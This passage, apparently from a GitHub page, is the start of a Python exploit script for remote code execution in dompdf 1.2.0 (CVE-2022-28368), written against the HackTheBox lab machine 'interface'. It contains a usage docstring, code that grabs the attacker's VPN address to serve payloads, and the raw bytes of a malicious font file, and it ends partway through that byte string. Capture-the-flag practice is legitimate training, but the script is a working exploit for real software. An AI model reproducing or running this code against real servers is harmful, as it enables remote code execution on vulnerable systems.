 **Exploit script**
```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-05-05
Description: dompdf 1.2.0 RCE exploit for HackTheBox machine "interface"
CVE: CVE-2022-28368

Usage: python script.py [COMMAND]
                        - Where COMMAND is a system command to execute

Example: python script.py 'id'

Pre-requirements:
    - vHost is added in the "/etc/hosts" file i.e "10.10.11.200 prd.m.rendering-api.interface.htb"
    - HackTheBox VPN is connected on "tun0" interface
"""

import requests
import netifaces as ni
import random
import string
import hashlib
import threading
import http.server
import socketserver
import sys
import re

session = requests.Session()
rhost = "http://prd.m.rendering-api.interface.htb"

# Enable burp proxy
#session.proxies = {"http": "http://127.0.0.1:8080"}

# Get HackTheBox vpn ip from tun0 interface
try:
    htb_vpn_inf = 'tun0'
    lhost = ni.ifaddresses(htb_vpn_inf)[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

def init_files(ip, php):

    RND_STR = ''.join(random.choices(string.ascii_lowercase, k=10))

    # Raw bytex of https://github.com/positive-security/dompdf-rce/blob/main/exploit/exploit_font.php
    TTF_BYTES = b"\x00\x01\x00\x00\x00\x0a\x00\xef\xbf\xbd\x00\x03\x00\x20\x64\x75\x6d\x31\x00\x00\x00\x00\x00\x00\x00" \
                b"\xef\xbf\xbd\x00\x00\x00\x02\x63\x6d\x61\x70\x00\x0c\x00\x60\x00\x00\x00\xef\xbf\xbd\x00\x00\x00\x2c" \
                b"\x67\x6c\x79\x66\x35\x73\x63\xef\xbf\xbd\x00\x00\x00\xef\xbf\xbd\x00\x00\x00\x14\x68\x65\x61\x64\x07" \
                b"\xef\xbf\xbd\x51\x36\x00\x00\x00\xef\xbf\xbd\x00\x00\x00\x36\x68\x68\x65\x61\x00\xef\xbf\xbd\x03\xef" \
                b"\xbf\xbd\x00\x00\x01\x28\x00\x00\x00\x24\x68\x6d\x74\x78\x04\x44\x00\x0a\x00\x00\x01\x4c\x00\x00\x00" \
                b"\x08\x6c\x6f\x63\x61\x00\x0a\x00\x00\x00\x00\x01\x54\x00\x00\x00\x06\x6d\x61\x78\x70\x00\x04\x00\x03" \
```